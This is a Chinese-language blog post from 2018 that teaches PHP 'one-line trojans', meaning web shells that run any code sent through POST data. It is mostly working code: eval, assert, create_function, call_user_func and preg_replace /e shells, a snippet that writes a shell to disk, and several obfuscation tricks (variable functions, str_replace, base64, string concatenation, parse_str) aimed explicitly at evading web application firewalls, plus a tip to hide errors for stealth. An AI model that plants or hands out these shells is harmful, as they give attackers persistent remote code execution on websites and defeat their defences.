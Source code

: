 ```yaml
---
layout: post
title: "PHP之一句話木馬"
date: 2018-12-18 00:25:20 +0800
categories: [php,web,security]
tags: [php,web,security]
---
```


## 什麼是一句話木馬

**一句話木馬就是只需要一行代碼的木馬，短短一行代碼，就能做到和大馬相當的功能。為了繞過waf的檢測，一句話木馬出現了無數中變形，但本質是不變的：木馬的函數執行了我們發送的命令。**

**我們如何發送命令，發送的命令如何執行？
我們可以通過`GET` 、`POST` 、`COOKIE`這三種方式向一個網站提交數據，一句話木馬用`$_GET[' ']`、`$_POST[' ']`、`$_COOKIE[' '] `接收我們傳遞的數據，並把接收的數據傳遞給一句話木馬中執行命令的函數，進而執行命令。
所以看到的經典一句話木馬大多都是只有兩個部分，一個是可以執行代碼的函數部分，一個是接收數據的部分。**
例如：
```php
<?php eval(@$_POST['a']); ?>
```
其中eval就是執行命令的函數，`$_POST['a']`就是接收的數據。 eval函數把接收的數據當作PHP代碼來執行。這樣我們就能夠讓插入了一句話木馬的網站執行我們傳遞過去的任意PHP語句。這便是一句話木馬的強大之處。

---

### **使用 其他函數製作一句話木馬**

#### **assert函數**
```php
<?php assert(@$_POST['a']); ?>
```
---

#### **create_function函數**
```php
<?php
$fun = create_function('',$_POST['a']);
$fun();
?>
```

把用戶傳遞的資料形成一個函數fun()，然後再執行fun()

---

#### **call_user_func回調函數**
```php
<?php
@call_user_func(assert,$_POST['a']);
?>
```

`call_user_func`這個函數可以呼叫其它函數，被呼叫的函數是`call_user_func`的第一個函數，被呼叫的函數的參數是`call_user_func`的第二個參數。
<br />
這樣的一個語句也可以完成一句話木馬。一些被waf攔截的木馬可以配合這個函數繞過waf。

---

#### **preg_replace函數**
```php
<?php
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
```

這個函數原本是利用正則表達式替換符合條件的字符串，但是這個函數有一個功能——可執行命令。這個函數的第一個參數是正則表達式，按照PHP的格式，表達式在兩個"/"之間。如果我們在這個表達式的末尾加上"e"，那麼這個函數的第二個參數就會被當作代碼執行。

---

#### **file_put_contents函數**

#### 利用函數生成木馬

```php
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```
函數功能：產生一個文件，第一個參數是文件名，第二個參數是文件的內容。

---

### 讓一句話木馬繞過waf


#### **PHP變數函數**
```php
<?php
$a = "eval";
$a(@$_POST['a']);
?>
```
第三行使用了變數函數$a，變數儲存了函數名eval，便可以直接用變數替代函數名。

---

#### **PHP可變變數**
```php
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>
```

看這句就能理解上述語句：`$$aa = $($aa) = $ (‘bb’) = $bb = "eval"`

---

#### **str_replace函數**
```php
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

函數功能：在第三個參數中，查找第一個參數，並替換成第二個參數。這裡第二個參數為空字符串，就相當於刪除"Waldo"。

---

#### **base64_decode函數**
```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

這裡是base64解密函數，"ZXZhbA=="是eval的base64加密。

---

### **"."操作符號**
```php 
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```
---

### **parse_str函數**
```php
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```
執行這個函數後，生成一個變數$a，值為字符串"eval"

---

### **更多技巧...**
`多實戰，多Google！`

上述六種技巧每一種單獨使用都不能繞過waf，但是與 第三大點提到的函數混合起來使用，就可以順利的欺騙waf。
`tips：使用一句話木馬的時候可以在函數前加”@”符，這個符號讓php語句不顯示錯誤信息，增加隱蔽性。`

---

### **再來一個小栗子**
```php
<?php
function fun()
{return $_POST['a'];}
@preg_replace("/test/e",fun(),"test test test");
?>
```
這裡又有一個技巧，創建函數 fun()，返回post中"a"的數據。

資料來源<br />
[PHP之一句話木馬](https://xz.aliyun.com/t/2786)